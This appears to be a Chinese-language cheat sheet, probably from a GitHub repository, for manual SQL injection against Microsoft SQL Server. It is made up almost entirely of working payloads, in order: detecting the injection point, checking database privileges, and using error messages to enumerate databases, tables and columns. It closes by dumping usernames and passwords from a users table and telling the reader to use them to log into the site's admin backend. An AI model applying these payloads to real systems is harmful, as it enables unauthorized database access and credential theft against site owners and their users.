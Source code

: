 # mssql手工注入


----------
+ 检测注入点
```mssql
?id=1' and 1=1-- # --表示闭合sql语句（一般可以测试.net 网站）
?id=1' and 1=2--
```
----------

+ 判断数据库类型
```mssql
?id=1' union select * from users where id=1 and exists(select * from sysobjects)--
and (select count(*) from sysobjects)>0  返回正常说明是mssql数据库
```
1433端口一般为mssql数据库开放端口

----------
- 注入点权限的判断（根据页面显示效果）
```mssql
?id=1' and (select IS_SRVROLEMEMBER('sysadmin'))>0--  判断是否为sa权限 页面正常显示便为sa权限
?id=1' and (select IS_SRVROLEMEMBER('public'))>0--  有返回结果说明当前用户为public权限 一般来说有这个权限也看见可以进行暴库 爆表 爆字段了
```

- 判断当前用户的文件读写权限
```mssql
http://……/less-1.asp?id=1' and (select IS_SRVROLEMEMBER('db_owner'))>0-- 没有返回结果便说明没有文件的读写权限
```

----------
- 获取该网站信息（通过.net的报错机制，通过报错爆出数据信息）
```mssql
and 1=(select @@version) 查看版本信息
and 1=(select db_name()) 获取当前数据库
and User_Name()>0  获取当前用户名
```

----------
- 爆库名
```mssql
and 1=(select name from master.dbo.sysdatabases where dbid=1)   暴库名DBID为1，2，3....
暴库名后面依次类推......
```

----------
- 爆表名
```mssql
and (select top 1 name from [数据库名字].sys.all_objects where type='U' AND is_ms_shipped=0)>0  指定数据库爆表
and (select top 1 name from test.sys.all_objects where type='U' and is_ms_shipped=0)=1 获取第一个表名
and (select top 1 name from test.sys.all_objects where type='U' and is_ms_shipped=0 and name not in ('emails'))=1  获取第二个表
```
后面依次类推.......

----------
- 爆字段
```mssql
and (select top 1 column_name from test.information_schema.columns where table_name='users')=1  指定users表 获取第一个字段

and (select top 1 column_name from test.information_schema.columns where table_name='users' and column_name not in ('id'))=1   指定users表 获取第二个字段

后面依次类推.......
```

----------
- 获取字段数据
```mssql
and (select top 1 username from users)=1 获取username的内容
and (select top 1 password from users)=1  获取password的内容
得到账号密码后 在后台登录地址登录就ok了
```


